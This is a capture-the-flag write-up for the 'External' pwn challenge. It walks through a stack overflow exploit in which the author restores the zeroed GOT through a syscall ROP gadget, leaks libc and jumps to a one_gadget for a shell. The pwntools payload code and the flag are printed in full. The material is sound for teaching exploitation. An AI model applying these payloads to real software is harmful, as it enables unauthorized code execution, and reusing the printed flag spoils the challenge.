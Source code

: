 ## External  
#### Description  
No description.

#### Author  
M_alpha

#### Points and solves  
467 points and 69 solves.

We are given a binary, that reads out input, clears the GOT table and somehow
we need to get a shell.

```c  
undefined8 main(void)  
{  
 undefined buff [80];  
 puts("ROP me ;)");  
 printf("> ");  
 read(0,buff,0xf0);  
 clear_got();  
 return 0;  
}  
```

The function ```clear_got``` does exactly what we expect it to do, it uses
```memeset``` to set the entire GOT to 0.

In addition, we have a very usefull gadget in one of the setup functions:  
```asm  
00401283 0f 05      SYSCALL  
00401285 c3         RET  
```

### The vulnerability  
It is obvious we can overflow ```buff``` and like in the challenge ```echo```,  
we keep out eyes peeled for a way to abuse the syscall gadaget.

However, is it not a trivial rop chain, because we can't immediatly return to
```plt``` functions.  
So, after a quick research about dynamic linking, I figured out the following,  
the GOT entry for any function, say ```printf```, by default is pointing to
```plt.printf + 0x6```  
At that address lays the dynamic linking routine for ```printf```.  
If we can set all the zeroed GOT entries to some resolving function in the
```plt``` section, we can reload the GOT entries.

### 1. Setting up conditions for restoring the GOT:  
```python  
payload = p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(got_start) + p64(0) +
p64(syscall_ret) +\  
p64(elf.sym.main)  
payload = 0x58*b"A"+payload  
p.sendline(payload)  
```  
We have a rop chain that loads ```rdi = 0, rsi = &GOT``` and returns to a
syscall, and to main afterwards.  
Since main returns 0, by the time we are executing the rop chain ```rax``` is
0, which is the syscall number for ```read```.  
At the time we syscall, we will actually read back into the GOT table.

### 2. Rewriting GOT table:  
The GOT entries in the binary are in the following order: [puts, setbuf,
printf, memset, alarm, read, signal]  
```python  
payload = p64(elf.sym.plt["puts"]+6) + p64(elf.sym.plt["setbuf"]+6) +
p64(elf.sym.plt["puts"]+6) +\  
	p64(elf.sym.plt["puts"]+6) + p64(elf.sym.plt["alarm"]+6) + p64(elf.sym.plt["read"]+6) +\  
	p64(elf.sym.plt["signal"]+6)  
p.sendline(payload)  
```  
So, we load the appropriate ```plt``` values into the GOT, but we can't just
load them the same way,  
because memset will zero them again, so we just patch the GOT entry for memset
with ```plt.puts```.  
Now, by the time we return to ```main``` the function will resolve their
addresses based on the ```plt``` values that are in the GOT tablle.

### 3. Leak libc:  
We now have a "stable" binary that won't erase the GOT on us, and we can just
leak libc with a simple rop chain:  
```python  
payload = p64(pop_rdi) + p64(elf.sym.got["puts"]) + p64(elf.sym.plt["puts"]) +
p64(elf.sym.main)  
```

### 4. Get shell:  
We have a one_gadget at ```0x448a3``` offset, we can just return to that with
another rop chain.  
```python  
p.sendline(0x58*b"C" + p64(libc.address + one_shot_offset) + b"\x00"*0x100)  
```

#### Flag  
```flag{0h_nO_My_G0t!!!!1111!1!}```  

Original writeup (https://github.com/ElikBelik77/ctfs-
writeups/tree/master/offshift/external).